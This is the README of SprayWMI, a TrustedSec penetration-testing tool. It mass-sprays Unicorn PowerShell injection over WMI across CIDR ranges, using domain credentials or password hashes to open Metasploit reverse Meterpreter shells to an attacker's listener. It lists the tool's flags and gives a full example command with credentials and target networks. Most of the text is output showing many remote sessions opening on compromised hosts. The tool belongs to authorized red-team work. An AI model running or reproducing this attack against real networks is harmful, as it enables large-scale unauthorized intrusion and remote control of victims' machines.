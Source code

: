SprayWMI is a method for mass spraying Unicorn PowerShell injection to CIDR notations.

Written by: David Kennedy (@HackingDave) @TrustedSec
Special thanks to: Justin Elze and Larry Spohn @TrustedSec

Initial blog post: https://www.trustedsec.com/june-2015/no_psexec_needed/
If you have trouble with this on 64-bit, try:
dpkg --add-architecture i386 && apt-get update && apt-get install libpam0g:i386 && apt-get install libpopt0:i386

Flags and descriptions:

domain                 Domain you are attacking. If its local, just specify workgroup.
username               Username to authenticate on the remote Windows system.
password               Password or password hash LM:NTLM to use on the remote Windows system.
CIDR range or file     Specify a single IP, CIDR range (10.0.1.1/24) or multiple CIDRs: 10.0.1.1/24,10.0.2.1/24. 
                          You can also specify a file (ex: ips.txt) that contains a single IP addresses on each line. 
payload                Metasploit payload, example: windows/meterpreter/reverse_tcp
LHOST                  Reverse shell IP address.
LPORT                  Reverse shell listening port.
optional: NO           Specify no if you do not want to create a listener. This is useful if you already have a listener 
                          established. If you do not specify a value, it will automatically create a listener for you.

Usage: python spraywmi.py <domain> <username> <password> <CIDRrange or file> <payload> <LHOST> <LPORT> <optional: no>


Below is an example of output from spraywmi:

root@stronghold:/home/relik# python spraywmi.py TS kennedy-test complexP255w0rd! 10.0.90.1/24,10.0.0.1/24,10.0.59.1/24,10.0.96.1/24,10.0.1.1/24 windows/meterpreter/reverse_tcp 10.0.47.24 443

[*] Generating shellcode through Unicorn, this could take a few seconds.

[*] Launching the listener in the background.

[*] Waiting for the listener to start first before we continue.

[*] Be patient, Metasploit takes a little bit to start.

[*] Sweeping targets for open TCP port 135 first, then moving through. Be patient.

[*] Launching WMI spray against IP: 10.0.90.1 - You should have a shell in the background. Once finished, a shell will spawn.

<snip>

[*] Launching WMI spray against IP: 10.0.96.20 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.96.21 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.96.22 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.96.23 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.96.242 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.1.13 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Spraying is still happening in the background, shells should arrive as they complete.

[*] Interacting with Metasploit.

msf exploit(handler) > 

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.174

[*] Meterpreter session 1 opened (10.0.47.24:443 -> 10.0.90.174:49868) at 2015-10-13 04:33:55 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.203

[*] Meterpreter session 2 opened (10.0.47.24:443 -> 10.0.90.203:51333) at 2015-10-13 04:33:59 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.184

[*] Meterpreter session 3 opened (10.0.47.24:443 -> 10.0.90.184:61218) at 2015-10-13 04:34:02 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.204

[*] Meterpreter session 4 opened (10.0.47.24:443 -> 10.0.90.204:54219) at 2015-10-13 04:34:06 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.175

[*] Meterpreter session 5 opened (10.0.47.24:443 -> 10.0.90.175:54210) at 2015-10-13 04:34:10 -0400

<snip>

[*] Meterpreter session 13 opened (10.0.47.24:443 -> 10.0.90.248:53657) at 2015-10-13 04:34:31 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.39

[*] Meterpreter session 14 opened (10.0.47.24:443 -> 10.0.90.39:60451) at 2015-10-13 04:34:35 -0400

[*] Encoded stage with x86/shikata_ga_nai
